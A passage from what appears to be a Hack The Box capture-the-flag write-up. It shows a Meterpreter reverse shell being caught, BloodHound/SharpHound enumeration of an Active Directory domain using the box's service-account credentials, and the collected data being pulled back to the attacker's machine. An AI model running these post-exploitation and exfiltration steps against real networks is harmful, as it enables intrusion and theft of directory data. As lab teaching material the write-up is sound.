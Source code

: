 The payload is compiled in real time and a session is received:

```aaa
[*] Started reverse TCP handler on 10.10.14.144:4444 
msf5 exploit(multi/handler) > [*] Sending stage (180291 bytes) to 10.10.10.161
[*] Meterpreter session 1 opened (10.10.14.144:4444 -> 10.10.10.161:55075) at 2019-12-07 01:39:29 +0100

msf5 exploit(multi/handler) > sessions -i 1
[*] Starting interaction with 1...

meterpreter > getuid
Server username: HTB\svc-alfresco
```

Now with the *shell* command I opened a command prompt instance and from there I started PowerShell with *powershell*, loaded SharpHound in memory with the download cradle from earlier, and after launching it an error appeared clarifying the source of the error, LDAP:

```aaa
PS C:\Users\svc-alfresco\Documents> Invoke-Bloodhound -CollectionMethod All                 
Invoke-Bloodhound -CollectionMethod All
Initializing BloodHound at 5:43 PM on 12/6/2019
Ldap Connection Failure.
Try again with the IgnoreLdapCert option if using SecureLDAP or check your DomainController/LdapPort option
```

Despite that suggestion using the -IgnoreLdapCert option does not solve the issue, what does it is simply providing LDAP credentials, because anonymous access to LDAP on the box is not allowed:

```aaa
PS C:\Users\svc-alfresco\Documents> Invoke-Bloodhound -CollectionMethod All -LdapUser svc-alfresco -LdapPass s3rvice
Invoke-Bloodhound -CollectionMethod All -LdapUser svc-alfresco -LdapPass s3rvice
Initializing BloodHound at 5:44 PM on 12/6/2019
Resolved Collection Methods to Group, LocalAdmin, Session, LoggedOn, Trusts, ACL, Container, RDP, ObjectProps, DCOM, SPNTargets
Starting Enumeration for htb.local
Status: 123 objects enumerated (+123 41/s --- Using 86 MB RAM )
Finished enumeration for htb.local in 00:00:03.4082754
1 hosts failed ping. 0 hosts timedout.

Compressing data to C:\Users\svc-alfresco\Documents\20191206174432_BloodHound.zip.
You can upload this file directly to the UI.
Finished compressing files!
```

Thanks to Meterpreter the archive with all the information gathered by Bloodhound is downloaded very easily on the attacking host:

```aaa
meterpreter > download 20191206174432_BloodHound.zip /home/baud/
[*] Downloading: 20191206174432_BloodHound.zip -> /home/baud/20191206174432_BloodHound.zip
[*] Downloaded 12.65 KiB of 12.65 KiB (100.0%): 20191206174432_BloodHound.zip -> /home/baud/20191206174432_BloodHound.zip
[*] download   : 20191206174432_BloodHound.zip -> /home/baud/20191206174432_BloodHound.zip
```
